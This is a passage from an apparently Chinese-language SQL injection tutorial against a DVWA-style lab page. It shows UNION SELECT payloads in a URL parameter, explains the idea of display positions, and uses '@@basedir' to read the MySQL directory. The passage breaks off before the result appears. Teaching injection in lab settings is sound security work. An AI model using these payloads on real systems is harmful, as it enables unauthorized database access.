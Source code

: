 <p><img src="picture/img (58).png" alt="Alt text"></p>
<p>当访问URL为以下链接时：</p>
<pre><code>http://www.test.test/dwva/injet.php?id=1 union select 1,2,3
</code></pre><p>当前sql查询语句为：</p>
<pre><code>SELECT * FROM admin WHERE id=1 union select 1,2,3
</code></pre><p>此时可以正确返回页面，如下：</p>
<p><img src="picture/img (59).png" alt="Alt text"></p>
<p>此时第二个查询的结果是：1，2，3，在页面上的显示被称为<code>显示位</code>，我们尝试在<code>2</code>的显示位查询mysql根目录，实际语句为：</p>
<pre><code>select @@basedir
</code></pre><p>直接在UNION后面的查询把<code>2</code>替换为<code>@@basedir</code>,理想效果是在访问之后，原先<code>2</code>的位置返回了mysql根目录。</p>
<p>实际执行的sql语句为：</p>
<pre><code>SELECT * FROM admin WHERE id=1 union select 1,@@basedir,3
</code></pre><p>于是得到当前mysql根目录为：</p>